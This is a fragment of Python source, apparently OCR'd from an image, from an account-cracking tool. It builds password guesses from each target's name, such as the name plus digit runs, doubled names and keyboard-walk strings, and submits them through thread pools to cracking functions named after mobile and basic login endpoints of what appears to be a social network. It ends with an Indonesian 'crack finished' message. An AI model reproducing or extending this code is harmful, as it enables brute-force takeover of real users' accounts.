 			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+frs)
					pwv.append(frs+' '+frs)
					pwv.append('١٢٣٤٥٦')
					pwv.append('١٢٣٤٥٦٧٨٩')
					pwv.append(frs+"12")
					pwv.append(frs+'123')
					pwv.append(frs+'1234')	
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')		
					pwv.append(frs+'123456789')			
					pwv.append('mmnnbbvv')
					pwv.append('qqwweerrtt')
					pwv.append('aaaassss')
					pwv.append('zzzzxxxx')
					pwv.append('zzxxccvv')
					pwv.append('zxcvzxcv')
					pwv.append('ppooiiuu')
					
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+frs)
					pwv.append(frs+' '+frs)
					pwv.append('١٢٣٤٥٦')
					pwv.append('١٢٣٤٥٦٧٨٩')
					pwv.append(frs+"12")
					pwv.append(frs+'123')
					pwv.append(frs+'1234')	
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')		
					pwv.append(frs+'123456789')			
					pwv.append('mmnnbbvv')
					pwv.append('qqwweerrtt')
					pwv.append('aaaassss')
					pwv.append('zzzzxxxx')
					pwv.append('zzxxccvv')
					pwv.append('zxcvzxcv')
					pwv.append('ppooiiuu')
					
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'touch' in method:
				pool.submit(cracktouch,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	cetak(nel('\t[cyan]✓[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[cyan] ✓[white] '))